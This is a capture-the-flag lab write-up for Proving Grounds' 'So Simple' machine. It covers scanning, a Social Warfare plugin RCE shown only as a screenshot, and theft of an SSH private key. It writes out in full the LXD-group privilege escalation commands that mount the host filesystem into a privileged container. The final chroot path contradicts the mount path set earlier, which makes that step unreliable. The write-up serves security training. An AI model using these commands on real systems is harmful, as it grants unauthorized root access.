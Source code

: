 * * *
 ### LAB: SO SIMPLE
 ### PLATFORM: PROVING GROUNDS
* * *

- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/583ce09b-3d2e-469c-8439-628f7c7c3030)

- FFuf spotted a wordpress directory    

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4bec41f2-29fa-408b-ae90-a2693dfef8bd)

- Scanning with `wpscan --url <url>` for information about the wordpress site and a particular plugin caught my attention which is the `social warfare wp plugin`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37b131e1-0088-4bc5-bb3e-5ada1bbeae4f)

- `Social warfare 3.5.0` has an unauthenticated remote code execution flaw.I wrote an exploit for it

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d19b707b-33d6-416d-98de-a1ba6822de1f)
  
- Now we have a stabilied shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63442927-533b-4cb6-b500-e2c243f89549)

### Road to PRIVESC 

- One of the user Max has a private key in his `.ssh` directory

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cfb16a3d-6959-4588-8fdd-de9a3a2c6afe)

- We can send the file with python http.server to our machine, change permissions with `chmod 600 <id_rsa>` and ssh to max's account

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/daa34c20-99a8-424c-a5f4-25111ffdb8b8)

### Privilege escalation with lxd user

- I ran `id` and discovered that his account is part of the user group

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd539238-3616-42ca-ab70-4cdb8f471882)

- I ran this bash one-liner `cat /etc/passwd | grep "lxd"` to check if lxd is a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cabd4c6b-d5f4-47ff-8a40-99b855d37f38)

- I checked if lxd has a running process with `ps -ef | grep -i "lxd\|lxc"`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d54e4a2-233d-4cfe-b4bd-fce90a703b06)

- I used this commands to build an lxd image as root on the host machine

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Use a directory like `/dev/shm` or `/tmp` to receive the alpine image
- Set up a python http server and send the recent image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4ea75f7d-8504-43fa-a3dd-801f02bc7236)

- Receive it on `/tmp/` to initialize the image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b4dac9c1-aef5-4e62-aa18-43286b897811)

- Create a storage pool with `lxd init`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/23511f48-5d10-481d-aa8d-f120e604ea71)

- Import the image with this command

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine

- List images with

      lxc image list

- Use the commands below to initialize the images in /tmp 

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c47dde3e-73c5-4e02-a940-1630f4f613a4)

 - To execute the container use `lxc exec juggernaut sh`
 - Breakout with `chroot /root/mnt`,voila!!!, root accesss

   ![Uploading image.png…]()


  
  

  
